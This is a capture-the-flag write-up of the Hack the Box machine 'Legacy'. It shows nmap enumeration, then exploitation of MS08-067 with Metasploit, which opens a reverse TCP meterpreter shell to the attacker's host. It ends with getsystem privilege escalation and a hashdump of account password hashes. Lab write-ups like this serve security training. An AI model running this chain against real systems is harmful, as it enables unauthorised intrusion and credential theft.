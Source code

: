 ```yaml
---
layout: post
title: Hack the Box - Legacy
date: 2020-03-14 20:43:22 +0100
description: Legacy is a fairly straightforward beginner-level machine which demonstrates the potential security risks of SMB on Windows. Only one publicly available exploit is required to obtain administrator access.
img: legacy.png
fig-caption: Legacy
categories: HackTheBox
tags: [Easy, Windows, Retired, CVE]
---
```

## Overview
Legacy is a fairly straightforward beginner-level machine which demonstrates the potential security risks of SMB on Windows. Only one publicly available exploit is required to obtain administrator access.
## Enumeration
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~]
└─$ sudo nmap -p- -T4 10.129.113.57                                                   
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-14 13:41 GMT
Nmap scan report for 10.129.113.57
Host is up (0.017s latency).
Not shown: 65532 filtered ports
PORT     STATE  SERVICE
139/tcp  open   netbios-ssn
445/tcp  open   microsoft-ds
3389/tcp closed ms-wbt-server
```
After running initial port enumeration the ports that seem most of interest are 139,445. A quick vulnerability scan reveals it is potentially vulnerable to MS08-067.
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~]
└─$ sudo nmap -p139,445 --script vuln 10.129.113.57 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-14 13:44 GMT
...
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
```
## Foothold
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox]
└─$ searchsploit ms08-067
--------------------------------------------------------- ---------------------------------
 Exploit Title                                           |  Path
--------------------------------------------------------- ---------------------------------
Microsoft Windows - 'NetAPI32.dll' Code Execution (Pytho | windows/remote/40279.py
Microsoft Windows Server - Code Execution (MS08-067)     | windows/remote/7104.c
Microsoft Windows Server - Code Execution (PoC) (MS08-06 | windows/dos/6824.txt
Microsoft Windows Server - Service Relative Path Stack C | windows/remote/16362.rb
Microsoft Windows Server - Universal Code Execution (MS0 | windows/remote/6841.txt
Microsoft Windows Server 2000/2003 - Code Execution (MS0 | windows/remote/7132.py
--------------------------------------------------------- ---------------------------------
```
Searching through exploitdb reveals that there are a number of exploits that we could use. As there is a metasploit module listed we will give that a quick go first. We can open up the msfconsole and search for the vulnerability there.
```
msf6 > search ms08-067

Matching Modules
================

   #  Name                                 Disclosure Date  Rank   Check  Description
   -  ----                                 ---------------  ----   -----  -----------
   0  exploit/windows/smb/ms08_067_netapi  2008-10-28       great  Yes    MS08-067 Microsoft Server Service Relative Path Stack Corruption
```
After finding it we select it, enter the appropriate IP's as options and give it a run. This should return as a meterpreter session.
```
msf6 exploit(windows/smb/ms08_067_netapi) > exploit

[*] Started reverse TCP handler on 10.10.14.27:4444 
[*] 10.129.113.57:445 - Automatically detecting the target...
[*] 10.129.113.57:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] 10.129.113.57:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 10.129.113.57:445 - Attempting to trigger the vulnerability...
[*] Sending stage (175174 bytes) to 10.129.113.57
[*] Meterpreter session 1 opened (10.10.14.27:4444 -> 10.129.113.57:1057) at 2021-03-14 14:08:04 +0000

meterpreter >
```
## Privilege Escalation
Once we have the meterpreter session, it is slightly more diifcult to enumerate which user we are as it is pre Windows XP SP2 and thus the "whoami" command does not exist yet. But we can either use PsExec to get a system shell or simply use the "getsystem" meterpreter command 
```
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > hashdump
Administrator:500:b47234f31e261b47587db580d0d5f393:b1e8bd81ee9a6679befb976c0b9b6827:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HelpAssistant:1000:0ca071c2a387b648559a926bfe39f8d7:332e3bd65dbe0af563383faff76c6dc5:::
john:1003:dc6e5a1d0d4929c2969213afe9351474:54ee9a60735ab539438797574a9487ad:::
SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:f2b8398cafc7174be746a74a3a7a3823:::
```

